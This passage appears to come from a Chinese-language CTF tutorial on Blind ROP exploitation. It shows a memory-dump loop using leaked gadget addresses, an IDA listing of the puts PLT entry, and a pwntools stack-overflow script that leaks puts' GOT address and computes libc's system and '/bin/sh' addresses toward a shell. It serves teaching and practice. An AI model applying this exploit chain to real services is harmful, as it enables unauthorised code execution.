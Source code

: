 ```bash
##stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4006c0
##brop_gadget = find_brop_gadget(buffer_length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = GetPutsPlt(buffer_length, rdi_ret, stop_gadget)
puts_plt_addr = 0x400555
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(buffer_length, rdi_ret, puts_plt_addr, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

```bash
seg000:0000000000400555                 or      bh, bh
seg000:0000000000400557                 and     eax, 0A200AB4h
seg000:000000000040055C                 nop     dword ptr [rax+0Ah]
seg000:0000000000400560                 jmp     qword ptr cs:0A601018h#puts函数的got地址
```

具体 IDA 操作方法见链接：[https://www.freesion.com/article/32791039584/#\_1](https://www.freesion.com/article/32791039584/#_1)

7、通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

```bash
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

p = process('./brop')

buffer_length   = 72
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9
puts_plt_addr = 0x400555
puts_got_addr = 0x601018

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(puts_got_addr) + p64(puts_plt_addr)
payload += p64(stop_gadget)

p.sendline(payload)
puts_addr = u64(p.recvuntil('\nWelCome my friend', drop=True).ljust(8, '\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')

#####################################################

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
```